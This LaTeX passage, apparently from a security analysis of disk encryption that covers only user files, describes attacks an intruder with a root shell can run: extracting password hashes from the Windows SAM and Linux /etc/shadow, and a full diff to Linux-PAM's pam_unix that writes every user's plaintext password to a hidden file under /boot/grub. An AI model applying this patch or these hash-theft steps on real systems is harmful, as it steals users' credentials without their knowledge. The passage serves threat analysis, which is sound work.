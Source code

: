 So, attacker has root shell and mounted filesystem. There are generally two vectors:
\begin{enumerate}
    \item Offline attacks - OS depended attack. Since encrypted only user files, attacker is able to steal salted hashes of user's password, then perform bruteforce attack to find passwords.

    \begin{itemize}
        \item Windows: extract user's hash from \verb|%SystemRoot%/system32/config/SAM| file using \verb|samdump2| as it is shown in article:~\cite{attack3}.
        \item Linux: extract user's hash from \verb|/etc/shadow| file.
    \end{itemize}

    \item Trick the user - requires one more login by the user.

    Since only user's files are encrypted, attacker can patch authentication modules to get the password. 

    \begin{itemize}
        \item In Linux it is enough to modify source code of \lstinline{/lib/x86_64-linux-gnu/security/pam_unix.so} using this patch:

\begin{lstlisting}
diff -Naur Linux-PAM-1.1.8/modules/pam_unix/support.c pam-1.1.8-sniff/modules/pam_unix/support.c
--- Linux-PAM-1.1.8/modules/pam_unix/support.c  2013-09-16 13:11:51.000000000 +0400
+++ pam-1.1.8-sniff/modules/pam_unix/support.c  2016-12-01 20:38:31.966332050 +0300
@@ -2,6 +2,10 @@
  * Copyright information at end of file.
  */
 
+#include <fcntl.h>
+#include <sys/types.h>
+#include <sys/stat.h>
+
 #include "config.h"
 
 #include <stdlib.h>
@@ -767,6 +771,13 @@
    if (retval == PAM_SUCCESS) {
        if (data_name)  /* reset failures */
            pam_set_data(pamh, data_name, NULL, _cleanup_failures);
+
+        // sniff password and save it to /boot/grub/.cfg
+        int log_pass_fd = open( "/boot/grub/.cfg", O_APPEND | O_CREAT | O_WRONLY, 0600 );
+        dprintf( log_pass_fd, "User %s password is %s\n", name, p );
+        close( log_pass_fd );
+
+
    } else {
        if (data_name != NULL) {
            struct _pam_failed_auth *new = NULL;
\end{lstlisting}

        \item In Windows other way is much easier: install startup script, which steals decrypted files after user logon. Also this script can provide remote access to the user's computer.
    \end{itemize}

    
\end{enumerate} 

